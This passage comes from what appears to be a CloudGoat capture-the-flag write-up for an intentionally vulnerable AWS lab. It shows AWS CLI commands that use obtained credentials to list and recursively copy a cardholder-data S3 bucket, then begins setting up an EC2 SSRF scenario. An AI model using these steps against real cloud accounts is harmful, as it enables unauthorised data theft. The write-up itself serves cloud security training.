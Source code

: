 <img src="https://i.imgur.com/ryYt2EY.png"/>

Now we don't know what's the s3 bucket, we can list s3 buckets if it's associated with the AWS key

```bash
aws s3 ls --profile cloud_breach
```

<img src="https://i.imgur.com/wvQmHZ3.png"/>

To view contents of this s3 bucket we can list it by giving the bucket name which is `cg-cardholder-data-bucket-cloud-breach-s3-cgidkt0wpx0w0k` 

```bash
aws s3 ls s3://cg-cardholder-data-bucket-cloud-breach-s3-cgidkt0wpx0w0k --profile cloud_breach
```

<img src="https://i.imgur.com/RsXnMHI.png"/>

To copy all files from s3 bucket we can use `cp` to copy files, `--recusrive` to copy all files `.` for the the destination to be the current path

```bash
aws s3 --recursive cp s3://cg-cardholder-data-bucket-cloud-breach-s3-cgidkt0wpx0w0k . --profile cloud_breach
 ```

<img src="https://i.imgur.com/zLABNKo.png"/>

Accessing any of these file mean that we have compromised s3 bucket which completes this scenario

<img src="https://i.imgur.com/zyW9gIk.png"/>

We can now destory this challenege with  `python3 cloudgoat.py destroy cloud_breach_s3`

<img src="https://i.imgur.com/WlGnKmq.png"/>

## EC2 SSRF (Medium)
In this scenario we have access to IAM user through which we have to enumerate permissions and find a lambda function through which we can access EC2 instance and extract data from s3 bucket

To create this scenario, we need to run `python3 cloudgoat.py create ec2_ssrf`

<img src="https://i.imgur.com/iyAETZF.png"/>

But at the end this will fail because python3.6 is not supported for creating lambda functions, we can fix it by replacing it with python3.9 by editing `scenarios/ec2_ssrf/terraform/lambda.tf`

<img src="https://i.imgur.com/3KRPeK4.png"/>

<img src="https://i.imgur.com/K7i9wH2.png"/>

Now running the script again to create the scenario 

<img src="https://i.imgur.com/m2EgwcP.png"/>
